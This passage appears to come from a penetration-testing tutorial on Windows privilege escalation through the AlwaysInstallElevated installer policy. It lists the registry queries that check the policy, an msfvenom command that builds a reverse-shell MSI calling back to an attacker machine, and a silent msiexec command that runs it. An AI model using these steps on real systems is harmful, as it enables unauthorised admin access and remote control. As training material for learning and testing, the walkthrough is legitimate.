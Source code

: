 Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

This method requires two registry values to be set. You can query these from the command line using the commands below.
```shell-session
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Note:
	To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using `msfvenom`, as seen below:
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

```shell-session
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
